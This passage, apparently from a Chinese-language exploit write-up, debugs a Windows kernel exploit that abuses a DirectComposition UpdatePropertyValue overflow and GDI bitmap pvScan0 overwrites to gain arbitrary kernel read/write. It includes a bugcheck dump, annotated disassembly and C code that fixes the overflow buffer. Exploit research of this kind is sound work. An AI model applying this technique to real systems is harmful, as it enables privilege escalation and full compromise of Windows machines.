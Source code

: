 到这里我们完成了对managerbitmap的pvscan0的写入，写入的内容是workerbitmap的pvscan0地址，这样我们就完成了data attack的准备工作，但是到这里的时候，我执行后面的任意地址读写的时候触发了BSoD bugcheck。

```
kd&gt; !analyze -v
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

PAGE_FAULT_IN_NONPAGED_AREA (50)
Invalid system memory was referenced.  This cannot be protected by try-except,
it must be protected by a Probe.  Typically the address is just plain bad or it
is pointing at freed memory.
Arguments:
Arg1: 87a98104, memory referenced.
Arg2: 00000000, value 0 = read operation, 1 = write operation.
Arg3: 988e91ea, If non-zero, the instruction address which referenced the bad memory
    address.
Arg4: 00000000, (reserved)

FAULTING_IP: 
win32kfull!bDoGetSetBitmapBits+4a
988e91ea 8b0c8560a5aa98  mov     ecx,dword ptr win32kfull!galBitsPerPixel (98aaa560)[eax*4]
```

后来我检查了一下，发现是szbuf的写入有问题，在updatepropertyvalue函数中，是连续写入的，也就是除了写入我们想要的bitmap.pvscan0，还在写入想要值之后，还写入了一些junk data。

```
.text:0009E0FA                 movsd    //写入bitmap.pvscan0
.text:0009E0FB ; 48:                 *v15 = *(_DWORD *)v14;
.text:0009E0FB ; 49:                 v19 = (int)(v14 + 4);
.text:0009E0FB ; 50:                 v18 = (int)(v15 + 1);
.text:0009E0FB
.text:0009E0FB loc_9E0FB:                              ; CODE XREF: DirectComposition::CPropertyBagMarshaler::UpdatePropertyValue(PropertyUpdate const *,uint)+55E76j
.text:0009E0FB                 movsd     //写入了junk  data
.text:0009E0FC ; 51:                 *(_DWORD *)v18 = *(_DWORD *)v19;
.text:0009E0FC                 movsd    //写入了junk  data
.text:0009E0FD ; 52:                 *(_DWORD *)(v18 + 4) = *(_DWORD *)(v19 + 4);
.text:0009E0FD                 movsd    //写入了junk  data
```

这部分数据覆盖了bitmap的kernel object，需要对szbuf再做一点fix。

```
kd&gt; dd 8c93f000
8c93f000  c4050ace 00000001 00000000 00000000
8c93f010  00000000 c4050ace 00000000 00000000
8c93f020  00000200 00000045 00001140 8c93f17c
8c93f030  8c941030 ea3da585 ca8bfc2f 7bbfb6e9//key!!!这里写入了一些junk data，影响了kernel object

//对szbuff进行fix
    CopyMemory(szBuff+0x14, &amp;lpFakeBitmapElement_1,0x4);
    CopyMemory(szBuff+0x18, &amp;lpFakeBitmapElement_2,0x4);
    CopyMemory(szBuff+0x1C, &amp;lpFakeBitmapElement_3,0x4);
```
